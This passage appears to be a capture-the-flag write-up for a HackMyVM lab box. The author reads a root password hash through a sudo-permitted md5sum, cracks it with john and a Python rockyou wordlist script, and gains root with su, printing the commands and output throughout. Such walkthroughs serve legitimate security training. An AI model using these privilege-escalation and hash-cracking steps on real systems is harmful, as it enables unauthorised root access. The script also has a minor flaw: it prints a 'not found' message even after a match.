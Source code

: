 I used `sudo /bin/md5sum ROOTPASS` to get its MD5 hash:

```shellscript
messagemaster@MSG:/var/www$ sudo /bin/md5sum ROOTPASS
85c73111b30f9ede8504bb4a4b682f48  ROOTPASS
```

I copied this hash to my Kali machine and attempted to crack it using `john` with the `rockyou.txt` wordlist.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/wmessage]
└─$ echo "85c73111b30f9ede8504bb4a4b682f48" > hash.txt
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/wmessage]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
# ... (truncated output) ...
0g 0:00:00:03 DONE (2025-07-23 09:48) 0g/s 3659Kp/s 3659Kc/s 3659KC/s  fuckyooh21..*7¡Vamos!
Session completed.
```

`john` did not immediately show the cracked password in the summary. I then used a Python script to manually check the hash against the wordlist, accounting for a potential newline character that `echo` ( without using the -n option ) often includes.

```python
import hashlib

with open("/usr/share/wordlists/rockyou.txt","r") as file:
    for line in file:
        password = line.strip()
        # md5sum often includes a newline in its hash calculation for files
        hashed = hashlib.md5((password + "\n").encode()).hexdigest()
        if hashed == "85c73111b30f9ede8504bb4a4b682f48":
            print("[+] Found password : ", password)
            break
print("[-] No valid password is found !")
```

Running the script:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/wmessage]
└─$ python3 script2.py
[+] Found password :  Message5687
[-] No valid password is found !
```

The password was `Message5687`. I confirmed this by hashing it with `md5sum`:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/wmessage]
└─$ echo "Message5687" | md5sum
85c73111b30f9ede8504bb4a4b682f48  -
```

Finally, I used the cracked password to switch to the root user:

```shellscript
messagemaster@MSG:/var/www$ su root
Password: Message5687
id
uid=0(root) gid=0(root) groups=0(root)
```
